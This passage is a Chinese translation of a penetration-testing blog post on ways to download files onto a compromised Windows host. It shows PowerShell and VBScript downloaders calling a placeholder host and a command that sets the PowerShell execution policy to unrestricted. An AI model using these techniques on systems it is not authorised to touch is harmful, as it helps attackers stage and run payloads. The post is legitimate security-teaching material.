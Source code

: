 # 下载文件的 15 种方法

2014/06/19 18:19 | [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:https://www.netspi.com/blog/entryid/231/15-ways-to-download-a-file

在我们的入侵过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。这篇 blog 列举了 15 种下载文件的方法。

当然还有许多其它的办法来上传文件，下面的列表是 15 个我比较喜欢使用的技巧。

### PowerShell File Download

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在 windows 2003 之中默认支持这种脚本。

下面这两条指令实现了从 Internet 网络下载一个文件。

```
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file") 
```

下面这条指令是执行一个文件

```
PS C:\> .\test.ps1 
```

有的时候 PowerShell 的执行权限会被关闭，需要使用如下的语句打开。

```
C:\>powershell set-executionpolicy unrestricted 
```

### Visual Basic File Download

在 1998 年 Visual Basic 最终标准在 windows 上确定。下面的代码可以实现下载文件，虽然它的长度比 Powershell 长多了。

```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with 
```

在 windows 中 Cscript 指令可以允许你执行 VBS 脚本文件或者对 script 脚本做一些设置。在 windows 7 中这个指令并不是必须要用到。 但是在 windows XP 中需要使用这条指令，如下所示。
